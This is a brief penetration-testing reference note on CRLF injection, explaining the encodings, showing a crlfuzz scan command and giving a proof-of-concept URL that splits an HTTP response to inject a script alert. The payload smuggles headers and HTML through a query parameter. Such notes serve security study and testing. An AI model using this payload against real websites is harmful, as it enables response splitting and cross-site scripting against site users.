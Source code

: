 # CRLF

Carriage Return Line Feed

Carriage Return = ASCII 13, \r, %0D
Line Feed = ASCII 10, \n, %0A

## Tools

```
# https://github.com/dwisiswant0/crlfuzz
crlfuzz -u "http://example.com"
```

## POC

CRLF to XSS

```
http://www.example.com/somepage.php?page=%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
```
